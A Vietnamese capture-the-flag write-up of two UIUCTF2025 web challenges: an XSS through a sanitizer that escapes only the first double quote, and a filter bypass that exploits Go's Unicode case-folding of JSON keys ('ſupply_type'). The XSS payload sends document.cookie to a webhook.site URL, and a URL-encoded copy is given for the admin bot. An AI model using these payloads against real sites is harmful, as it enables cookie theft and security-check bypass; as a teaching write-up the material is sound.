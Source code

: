 ```yaml
---
title: Writeup Giải UIUCTF2025
date: 2025-07-29
categories: [WRITEUP,UIUCTF2025]
tags: [XSS, Unicode] # TAG names should always be lowercase
---
```



## UIUCTF2025

## I. Ruler of the Universe

Khi ta mở sẽ thấy được giao diện như bên dưới

![image.png](/assets/img/posts/UIUCTF2025/image.png)

ngoài ra còn một trang `Admin Bot` 

![image1.png](/assets/img/posts/UIUCTF2025/image1.png)

thì cũng phần nào đoán được bài lab này liên quan đến chủ đề `XSS Injection` 

kiểm tra source code ta thấy một đoạn code khả nghi sau

```html
            <input
              id="message"
              name="message"
              type="text"
              class="w-full border border-green-400 bg-black text-green-400 px-2 py-1 text-xs"
              placeholder={
                crewMessage
                  ? `Update your message: ${crewMessage}`
                  : "Enter a message for the crew"
              }
            />
```

Ở đây, `crewMessage` được đưa vào làm giá trị cho một **thuộc tính (prop/attribute)**. Ngoài ra cũng còn có một đoạn code phòng chống XSS nhưng chưa đủ chắc chắn như sau

```tsx
  const propString = props
    ? Object.entries(props)
        .filter(([key]) => key !== "children")
        .map(([key, value]) => {
          if (typeof value === "boolean") {
            return value ? key : "";
          }
          return `${key}="${String(value).replace('"', "&quot;")}"`;
        })
        .filter(Boolean)
        .join(" ")
    : "";
```

đoạn code trên chỉ thay thế dấu `"` đầu tiên bằng `&quot;` nên ta vẫn có thể dễ dàng vượt qua nó

và ta sẽ khai thác lỗ hổng trên bằng payload như sau:  `" placeholder="Hello"><script>fetch('[https://webhook.site/fbdbb9e3-5a91-4964-83de-9b97f9a23bb4?flag=](https://webhook.site/fbdbb9e3-5a91-4964-83de-9b97f9a23bb4?flag=)' + document.cookie)</script>`
nhập payload vào phần `Crew Message:` trên trang web và kiểm tra

![image2.png](/assets/img/posts/UIUCTF2025/image2.png)

ta thấy đã thành công tiêm thẻ `script` vào trang web 

và việc cuối cùng ta phải làm là gửi trang web đã bị XSS này đến với `Adminbot` để lấy flag thôi

`url_part` gửi đến adminbot `module/1?message="+placeholder%3D"Hello"><script>fetch%28%27https%3A%2F%2Fwebhook.site%2Ffbdbb9e3-5a91-4964-83de-9b97f9a23bb4%3Fflag%3D%27+%2B+document.cookie%29<%2Fscript>`


> **Flag:**
> ```text
> uiuctf{maybe_i_should_just_use_react_c49b79}
> ```
{: .prompt-tip }

## II. Shipping Bay

Khi mở trang web ta được một trang web với chức năng tạo và xem đơn hàng

![image.png](/assets/img/posts/UIUCTF2025/image3.png)

Thử tạo đơn hàng và sau khi đơn hàng được tạo thì không hiển thị trên trình duyệt. Quay trở lại burpsuite ta nhận được request và respone như sau:

![image.png](/assets/img/posts/UIUCTF2025/image4.png)

Quay trở lại source code ta nhận thấy có hai điểm đáng chú ý sau. Đoạn code python thì không cho sử key `supply_type` có value là `flag` ⇒ nếu có thì chặn và không gửi đến `processing_service` của Golang

```python
def create_shipment():
    shipment_data = {k.lower(): v for k, v in request.form.items()}
    if shipment_data['supply_type'] == "flag":
        return "Error: Invalid supply type", 400
```
{: .nolineno }

Nhưng Golang lại cần điều kiện đó để trả ra `flag`

```go
func sendShipment(shipment Shipment) string {
  if shipment.SupplyType == "flag" {
    if flag, exists := os.LookupEnv("FLAG"); exists {
      return flag
    }
    return "uiuctf{fake_flag}"
  }
  return "oops we lost the package"
}
```
{: .nolineno }
Vậy để vượt qua thử thách trên? Vấn đề nằm ở **sự khác biệt về chuẩn hóa Unicode của** Python và xử lý Json của Go. Khi unmarshal vào struct, Go nội bộ xây chiến lược tìm field theo **tên JSON**  và cho phép một dạng **so khớp không phân biệt hoa-thường** (casefold). Vậy việc cần làm ở đây là tìm kí tự có casefold để vượt qua rào cản để lấy được flag. Và mình dùng đoạn code sau đây để tìm kí tự đó:

```go
package main

import (
  "fmt"
  "strings"
  "unicode"
)
func main() {
  s := "supply_type"
  runes := []rune(s)
  for pos, target := range runes {
    count := 0
    fmt.Printf("Vị trí %d, ký tự gốc %q (U+%04X)\n", pos, target, target)
    for cand := rune(0); cand <= unicode.MaxRune; cand++ {
      if !unicode.IsPrint(cand) || cand == target {
        continue
      }
      if strings.EqualFold(string(cand), string(target)) {
        fmt.Printf("  -> U+%04X %q\n", cand, cand)
        count++
      }
    }
    fmt.Println("  Total:", count)
  }
}
```
{: .nolineno }

và kết quả trả về chỉ duy nhất kí tự `s` có casefold `ſ` 

```
Vị trí 0, ký tự gốc 's' (U+0073)
  -> U+0053 'S'
  -> U+017F 'ſ'
```

Gửi payload đã chứa casefold để nhận flag `origin=Earth+Station+Beta&destination=Mars+Colony+Alpha&supply_type=hello&ſupply_type=flag&weight=2.4+tons&departure=2000-02-01&arrival=2000-02-02&priority=Medium&vessel=Cargo+Hauler+IX` 

Vậy nó hoạt động như nào?

Khi ta gửi `supply_type=hello&ſupply_type=flag` thì sẽ được xử lý như sau:

- `lower()` không casefold, không normalize do đó phân biệt `supply_type` và `ſupply_type` nên thêm luôn vào dictonary hay key này. và `supply_type=hello` có value ≠ `flag` nên đoạn payload sẽ được gửi tiếp đến Go
- Go khi map JSON key → struct field **so khớp không phân biệt hoa-thường theo Unicode** (case folding), nên coi `ſ` ≡ `s`. Vậy khi Go nhận `supply_type=hello` và sau đó lại nhận được `ſupply_type=flag` thì casefold nó và ghi đè thành `supply_type=flag` và vượt qua được kiểm tra nên trả ra flag.
> **Flag:**
> ```text
> uiuctf{maybe_we_should_check_schemas_8e229f}
> ```
{: .prompt-tip }
